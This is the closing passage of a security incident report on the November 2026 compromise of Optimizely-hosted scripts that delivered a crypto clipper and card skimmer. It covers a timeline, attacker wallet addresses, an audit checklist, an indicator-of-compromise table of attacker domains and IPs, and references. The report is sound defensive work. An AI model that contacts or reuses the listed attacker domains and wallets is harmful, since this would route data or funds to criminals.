| 16 Nov 2026 (05:23) | 1688360.cc domain registered and TLS certificates provisioned.  |
| 16 Nov 2026 (08:10) | Initial build of track.js deployed containing crypto clipper.   |
| 16 Nov 2026 (11:20) | Zoom's CDN snippet modified with malicious projectJS payload.   |
| 16 Nov 2026 (13:03) | Attacker begins sweeping collected cryptocurrency to HitBTC.    |
| 16 Nov 2026 (13:43) | Card skimmer (Luhn mod-10) and html2canvas added to track.js.   |
| 16 Nov 2026 (16:38) | eil786npto9u5bq.icu registered as secondary iOS exploit router. |
| 16 Nov 2026 (19:25) | Report URI scan confirms 188 infected snippets across 178 orgs. |
| 16 Nov 2026 (20:40) | Mass cleanup begins across CDN nodes (Ledger, Smartsheet, BBC). |
| 16 Nov 2026 (23:11) | Optimizely confirms all infected customer snippets purged.      |
| 17 Nov 2026 (00:37) | Registrar places 1688360.cc on clientHold; domain goes offline. |
| 17 Nov 2026 (03:37) | webshell.lol placed on clientHold; upstream C2 dismantled.      |
+---------------------------------------------------------------------------------------+
```

### On-Chain Financial Forensics

As of 17 November 2026, blockchain transaction logs confirmed that the attacker received at least **$7,100+ USD** in stolen cryptocurrency through automated address clipping within a 9-hour window on 16 November [1]:
* **Bitcoin (BTC):** `19g9rZcPeiz8rUvyWpTRyXXhPnjsWrc3kW` received 0.08528 BTC across 5 transactions (~$5,489 USD), later swept to `bc1q5fljq9c4g7gsjgg4etpn6k3lyusahcvjfv0u99`.
* **Litecoin (LTC):** `ltc1q3wp7g6ds0ggg6fl6kncpa4sepn0q3qfacgred5` received 17.02 LTC (~$760 USD), swept to `ltc1qpxvjs8u8awg8pvpwmssqlj3gzugd9vtwjtc5fc`.
* **TRON (TRX / USDT):** `THvs6p56XkUiMkJeSc51cAP64u2RsTYqxa` received 662.9 USDT and 183.7 TRX (~$719 USD), consolidated into `TMLQvDvpgSyx94maptc3TxvmCVtT5qHVup`.
* **Ethereum (ETH / BSC):** `0xC4026b06D82b0F0B363eda0642D61CfbDc17884e` received 0.0553 ETH and 82 USDT on Binance Smart Chain.

Telemetry intelligence confirmed that the destination TRON address (`TMLQvDvpgSyx94maptc3TxvmCVtT5qHVup`) was identical to wallets utilized in previous operations dating back to March and early November 2026 [1], confirming an established cybercriminal group rather than an opportunistic actor.

---

## 8. Practical Adoption Blueprint & Verification Checklist

To verify whether your organization's web properties were impacted or remain vulnerable to third-party script poisoning, execute the following audit methodology.

### 1. Ingest Verification and Script Inventory

Run the following command against production endpoints to inspect all embedded scripts and verify headers:

```bash
# Extract all script tags and inspect for external dependencies
curl -sL https://www.yourdomain.com | grep -Eo '<script[^>]+src="[^"]+"' | awk -F'"' '{print $2}'

# Inspect Content Security Policy enforcement headers
curl -sI https://www.yourdomain.com | grep -iE 'content-security-policy|report-to'
```

### 2. Project JavaScript & Dashboard Audit

1. **Audit `projectJS` Fields:** In the Optimizely Web dashboard, open every project's **Settings > Project JavaScript** and inspect each experiment's custom code variations [1, 2].
2. **Search for IoC Signatures:** Search explicitly for strings matching `1688360.cc`, `webshell.lol`, `atob(`, `boot.js`, `_k7`, or obfuscated hexadecimal loaders.
3. **Revoke API Tokens & Force Password Resets:** Rotate all API tokens, Webhook secrets, and OAuth application integrations tied to experimentation platforms.
4. **Invalidate Customer Web Sessions:** If non-`HttpOnly` cookies were exposed on compromised domains during the 16 November window, cycle user session tokens and require re-authentication.

### 3. Indicators of Compromise (IoCs)

Block the following malicious domains, IPs, and payload signatures across perimeter firewalls, proxy gateways, and endpoint protection systems [1, 3]:

```
+-----------------------------------+---------------------------------------------------------+
| Indicator                         | Role in Attack Campaign                                 |
+-----------------------------------+---------------------------------------------------------+
| 1688360.cc (136.113.106.136)      | Primary C2: track.js, card.php, hit.php, html2canvas     |
| 5vobauua3ojpklx.icu (34.96.213.201)| Mobile Exploit Router: boot.js (iOS exploit gate)       |
| eil786npto9u5bq.icu (34.87.36.58) | Secondary iOS router: Coruna and DarkSword payload gate |
| l7bcsnwc7nzr3uo.icu               | Coruna telemetry collection endpoint (/api/iptj)        |
| webshell.lol                      | Precursor wave injector (get.js)                        |
| linkforge.cc                      | SEO backlink panel distributing initial loaders         |
| window._k7, window.__k7b          | Global browser memory markers instantiated by payload   |
| data-channel-code="02111110"      | Script attribute injected on malicious iOS iframes      |
+-----------------------------------+---------------------------------------------------------+
```

---

## 9. Primary Sources & References

1. [Report URI: World's Largest Brands Infected With Malware Via Optimizely](https://blog.report-uri.com/worlds-largest-brands-infected-with-malware-via-optimizely/) — Primary technical investigation by Scott Helme detailing the 178 affected organizations, CSP failure modes across 256 crawled hosts, payload revisions, and on-chain crypto theft.
2. [Optimizely Status: Incident ftw0fh9wx43z](https://status.optimizely.com/incidents/ftw0fh9wx43z) — Official incident disclosure confirming unauthorized access to customer Project JavaScript fields via an onboarding API vulnerability.
3. [StepSecurity: OPTIMJACK - Optimizely-Hosted Scripts Deliver Crypto Clipper and Card Skimmer](https://www.stepsecurity.io/blog/optimjack-optimizely-hosted-scripts-crypto-clipper-card-skimmer) — Technical malware analysis deconstructing the multi-stage modular payload and its detection heuristics.
4. [InfoStealers: Beyond Optimizely - Malicious Scripts Traced Across Four Web Services](https://www.infostealers.com/article/beyond-optimizely-malicious-scripts-traced-across-four-web-services/) — Threat intelligence report linking OPTIMJACK to earlier Kissmetrics, StorifyMe, and Minute Media compromises.
5. [Google Threat Intelligence: Coruna iOS Exploit Kit](https://cloud.google.com/blog/topics/threat-intelligence/coruna-powerful-ios-exploit-kit) — Technical background on Coruna; the incident-specific sample match is attributed to Report URI [1].
6. [Google Threat Intelligence: DarkSword iOS Exploit Chain](https://cloud.google.com/blog/topics/threat-intelligence/darksword-ios-exploit-chain) — Technical background on the DarkSword exploit chain; the incident-specific linkage is reported by the incident researchers [1, 3].
7. [PCI Security Standards Council: Information Supplement for PCI DSS 6.4.3 and 11.6.1](https://blog.pcisecuritystandards.org/new-information-supplement-payment-page-security-and-preventing-e-skimming) — Regulatory framework establishing mandatory script inventories, integrity checking, and tamper detection on payment interfaces.
8. [Sansec: The Polyfill.io Supply Chain Attack](https://sansec.io/research/polyfill-supply-chain-attack) — Foundational case study on malicious script distribution through hijacked public web infrastructure.

9. [W3C: Content Security Policy Level 3](https://www.w3.org/TR/CSP3/) — Normative rules for nonce and hash sources, `strict-dynamic`, CSP violation events, and reporting.
10. [WHATWG HTML Standard: Web Workers](https://html.spec.whatwg.org/multipage/workers.html#workers) — Defines worker execution contexts and their separation from document DOM APIs.

11. [MDN: Same-origin policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy) — Browser security guide explaining cross-origin document access and iframe boundaries.

### Source Context & Evidence

| Source | Reference Type | Evidence / Finding Reported | Observational Scope & Limits |
|---|---|---|---|
| **Optimizely Incident Advisory** (`ftw0fh9wx43z`) [2] | Vendor Disclosure | Root cause confirmed as an onboarding/signup API vulnerability permitting unauthorized write access to customer `projectJS` blocks. | Internal vendor post-incident statement; does not disclose full code-level defect or tenant authorization architecture. |
| **Report URI Investigation** (Scott Helme) [1] | Primary Threat Research | 188 infected snippets across 178 organizations; crawl of 256 hosts (159 classified CSP evaluations); $7,100+ on-chain crypto theft. | Telemetry based on external crawler dataset and public blockchain explorer transactions; cannot observe raw card numbers or private telemetry sent to C2. |
| **StepSecurity Threat Analysis** [3] | Malware Analysis | Reverse-engineered `track.js` (OPTIMJACK); identified Luhn mod-10 card skimmer, crypto regex patterns, and evasion loaders. | Static and dynamic analysis of intercepted payload samples; excludes non-public server-side C2 infrastructure. |
| **InfoStealers / Hudson Rock** [4] | Cybercrime Threat Intel | Precursor correlation: tracked `webshell.lol` loaders through Kissmetrics, StorifyMe, and Minute Media scripts starting in September 2026. | Third-party threat actor tracking based on observed loader hashes and telemetry signals. |
| **Google Threat Intelligence** [5, 6] | Vulnerability Research | Describes Coruna and DarkSword exploit chains, WebKit memory corruption, PAC bypass, and version targeting. | Provides exploit-kit background; incident-specific use or sample matching must be attributed to incident researchers [1, 3]. |
| **PCI SSC Information Supplement** [7] | Security Standard | Mandates client-side script inventory (Req 6.4.3) and real-time tampering detection (Req 11.6.1) on payment pages. | Normative industry compliance framework; defines evaluation criteria for payment page script controls. |
| **W3C CSP Level 3** [9] | Normative Specification | Defines nonce/hash trust roots, `strict-dynamic`, and CSP violation/reporting behavior. | CSP behavior varies in older browsers; this article describes CSP3 behavior. |
| **WHATWG HTML: Web Workers** [10] | Normative HTML Standard | Defines worker execution contexts and their lack of direct document DOM access. | Workers retain network APIs; any message bridge must be reviewed separately. |
| **MDN: Same-origin policy** [11] | Browser Security Guide | Explains the same-origin boundary for documents and embedded frames. | Explanatory reference; the browser standard defines normative behavior. |

---

**Related:**
- [Polymarket: Compromised Monitoring Script Drained Trading Sessions](Polymarket-DebugBear-Supply-Chain-Attack-Oct-2026.md) — How a compromised DebugBear RUM snippet traversed the React DOM to drain trading wallets.
- [LiteLLM 1.107.0 Supply Chain Compromise](LiteLLM-1.107.0-Supply-Chain-Compromise-Oct-2026.md) — Upstream package poisoning and credential harvesting in modern open-source AI infrastructure.
- [eMudhra: Weak CA Keys and PKI Trust](EMudhra-Weak-CA-Keys-And-PKI-Trust-Oct-2026.md) — The cascading risks of implicit trust in core cryptographic and digital certificate providers.
- [HTTP Egress Credential Proxies vs MCP Gateways](HTTP-Egress-Credential-Proxies-Vs-MCP-Gateways-Nov-2026.md) — Architectural patterns for enforcing granular egress boundaries and preventing client-side credential exfiltration.
- [Brotli HTTP2Shell & Node2Shell (CVE-2026-111497)](Brotli-HTTP2Shell-Node2Shell-CVE-2026-111497-Nov-2026.md) — Low-level buffer overflow mechanisms and memory safety failures in foundational web runtime dependencies.
